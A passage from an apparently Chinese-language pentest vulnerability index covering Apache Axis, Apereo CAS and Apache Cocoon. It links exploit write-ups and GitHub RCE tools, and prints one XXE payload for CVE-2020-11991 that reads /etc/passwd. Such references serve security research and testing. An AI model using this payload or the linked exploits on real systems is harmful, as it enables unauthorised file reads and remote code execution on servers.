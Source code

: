 **Axis-1.4-RCE**
- 相关文章
    - [axis 1.4 AdminService未授权访问 jndi注入利用](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/axis%201.4%20AdminService%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%20jndi%E6%B3%A8%E5%85%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%88%A9%E7%94%A8/)

- POC | Payload | exp
    - [KibodWapon/Axis-1.4-RCE-Poc](https://github.com/KibodWapon/Axis-1.4-RCE-Poc)

**Axis2默认弱口令**
- 相关文章
    - [【漏洞复现】Axis2默认弱口令后台Getshell](https://mp.weixin.qq.com/s/Gp_FMM-n472wYTBA5lC3lw)

---

### CAS

> 项目地址 : https://github.com/apereo/cas

**Apereo CAS 4.X 反序列化漏洞**

- 相关文章
    - [Apereo CAS 4.X反序列化漏洞分析](https://www.anquanke.com/post/id/198842)
    - [Apereo_CAS_反序列化漏洞分析及利用](https://mp.weixin.qq.com/s/44eEiIQLfY9q-dKUH_GYhw)
    - [Apereo CAS 4.X反序列化漏洞分析及复现](https://www.freebuf.com/news/226149.html)
    - [Apereo CAS 4.X execution参数反序列化漏洞分析](https://xz.aliyun.com/t/7032)
    - [[漏洞复现] Apereo CAS 4.X 反序列化命令执行漏洞](https://www.seanzhang.cn/security/Web/fx_Apereo.html)

- 相关工具
    - [21superman/Cas_Exploit](https://github.com/21superman/Cas_Exploit) - CAS反序列化漏洞利用工具
    - [cL0und/cas4.x-execution-rce](https://github.com/cL0und/cas4.x-execution-rce) - exp for 4.1.x-4.1.6, 4.1.7-4.2.x, padding oracle attack
    - [langligelang/CAS_EXP](https://github.com/langligelang/CAS_EXP)
    - [MrMeizhi/ysoserial-mangguogan](https://github.com/MrMeizhi/ysoserial-mangguogan) - ApereoCas反序列化回显与检测
    - [nice0e3/Cas_Exploit](https://github.com/nice0e3/Cas_Exploit)

---

### Cocoon

> 官网 : https://cocoon.apache.org/

**CVE-2020-11991 XML 注入**

- 描述

    程序使用了 StreamGenerator 这个方法时,解析从外部请求的 xml 数据包未做相关的限制,恶意用户就可以构造任意的 xml 表达式,使服务器解析达到 XML 注入的安全问题。

- POC | Payload | exp
    ```xml
    POST /v2/api/product/manger/getInfo

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
    <userInfo>
    <firstName>John</firstName>
    <lastName>&ent;</lastName>
    </userInfo>
    ```

---